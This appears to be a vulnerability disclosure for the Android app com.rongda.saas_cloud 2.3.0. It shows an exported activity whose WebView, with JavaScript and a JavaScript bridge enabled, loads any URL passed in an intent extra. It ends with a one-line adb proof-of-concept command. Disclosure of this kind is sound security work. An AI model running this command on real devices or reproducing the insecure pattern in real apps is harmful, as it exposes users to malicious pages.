

# com.rongda.saas_cloud

com.rongda.saas_cloud contains an export component TutorialExaminationActivity, which allows an attacker to send a malicious URL and open it directly without any filtering or checking.

- package: com.rongda.saas_cloud
- version: 2.3.0
- url: https://os-android.liqucn.com/rj/188938.shtml

```xml
<activity
    android:name="com.rongda.investmentmanager.view.fragment.home.TutorialExaminationActivity"
    android:exported="true"
    android:screenOrientation="portrait"/>
```

```java
package com.rongda.investmentmanager.view.fragment.home;
public class TutorialExaminationActivity extends XBaseActivity<ActivityExaminationBinding, ExaminationViewModel> {

    @Override
    public void initData() {
        super.initData();
        ((ActivityExaminationBinding) this.binding).f49804E.getSettings().setJavaScriptEnabled(true);
        ((ActivityExaminationBinding) this.binding).f49804E.getSettings().setDomStorageEnabled(true);
        ((ActivityExaminationBinding) this.binding).f49804E.setWebViewClient(new C7907a());
        ((ActivityExaminationBinding) this.binding).f49804E.addJavascriptInterface(new C7908b(), "Android");
        ((ActivityExaminationBinding) this.binding).f49804E.loadUrl(getUrl());
    }

    private java.lang.String getUrl() {
        /*
            r2 = this;
            android.content.Intent r0 = r2.getIntent()
            if (r0 == 0) goto L13
            java.lang.String r1 = "base_url_config"
            java.lang.String r0 = r0.getStringExtra(r1)
            boolean r1 = android.text.TextUtils.isEmpty(r0)
            if (r1 != 0) goto L13
            goto L15
        L13:
            java.lang.String r0 = "http://assembly.rongdasoft.com/appCheckExam/prod/appIndex.html#/index"
        L15:
            java.lang.StringBuilder r1 = new java.lang.StringBuilder
            r1.<init>()
            r1.append(r0)
            java.lang.String r0 = "?topSize="
            r1.append(r0)
            int r0 = com.blankj.utilcode.util.BarUtils.getStatusBarHeight()
            float r0 = (float) r0
            int r0 = com.blankj.utilcode.util.SizeUtils.px2dp(r0)
            r1.append(r0)
            java.lang.String r0 = r1.toString()
            return r0
        */
        throw new UnsupportedOperationException("Method not decompiled: com.rongda.investmentmanager.view.fragment.home.TutorialExaminationActivity.getUrl():java.lang.String");
    }
```
```java
package me.goldze.mvvmhabit.base;
public abstract class BaseActivity<V extends ViewDataBinding, VM extends BaseViewModel> extends RxAppCompatActivity implements IBaseView {
    @Override
    public void onCreate(Bundle bundle) {
        super.onCreate(bundle);
        initParam();
        initViewDataBinding(bundle);
        registorUIChangeLiveDataCallBack();
        initData();
        initViewObservable();
        this.viewModel.registerRxBus();
    }
```

PoC:

```sh
$ adb shell am start -n com.rongda.saas_cloud/com.rongda.investmentmanager.view.fragment.home.TutorialExaminationActivity -e "base_url_config" "https://www.windows93.net"
```


